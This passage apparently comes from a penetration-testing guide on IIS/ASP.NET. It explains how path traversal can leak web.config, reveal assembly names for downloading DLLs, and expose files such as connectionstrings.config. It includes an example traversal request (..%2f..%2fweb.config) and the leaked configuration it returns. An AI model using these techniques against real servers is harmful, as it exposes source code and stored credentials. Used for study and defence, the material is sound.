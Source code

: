 
Use it without adding any extension, the files that need it have it already.

## Path Traversal

### Leaking source code

{% hint style="info" %}
As summary, there are several web.config files inside the folders of the application with references to "**assemblyIdentity**" files and "**namespaces**". With this information it's possible to know **where are executables located** and download them.\
From the **downloaded Dlls** it's also possible to find **new namespaces** where you should try to access and get the web.config file in order to find new namespaces and assemblyIdentity.\
Also, the files **connectionstrings.config** and **global.asax** may contain interesting information.\
Reference: [https://blog.mindedsecurity.com/2018/10/from-path-traversal-to-source-code-in.html](https://blog.mindedsecurity.com/2018/10/from-path-traversal-to-source-code-in.html)
{% endhint %}

As any .Net application, MVC applications have a **web.config** file, where "**assemblyIdentity**" XML tags identifies every binary file the application uses.

```markup
GET /download_page?id=..%2f..%2fweb.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <configSections>
    <section name="entityFramework" type="System.Data.Entity.Internal.ConfigFile.EntityFrameworkSection, EntityFramework, Version=6.0.0.0, Culture=neutral" requirePermission="false" />
  </configSections>
  <appSettings>
    <add key="webpages:Version" value="3.0.0.0" />
    <add key="webpages:Enabled" value="false" />
    <add key="ClientValidationEnabled" value="true" />
    <add key="UnobtrusiveJavaScriptEnabled" value="true" />
  </appSettings>
<system.web>
  <authentication mode="None" />
  <compilation debug="true" targetFramework="4.6.1" />
  <httpRuntime targetFramework="4.6.1" />
</system.web>
<system.webServer>
  <modules>
    <remove name="FormsAuthentication" />
  </modules>
</system.webServer>
<runtime>
  <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
    <dependentAssembly>
      <assemblyIdentity name="Microsoft.Owin.Security" />
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />
    </dependentAssembly>
    <dependentAssembly>
      <assemblyIdentity name="Microsoft.Owin.Security.OAuth" />
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />
    </dependentAssembly>
    <dependentAssembly>
      <assemblyIdentity name="Microsoft.Owin.Security.Cookies" />
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />
    </dependentAssembly>
```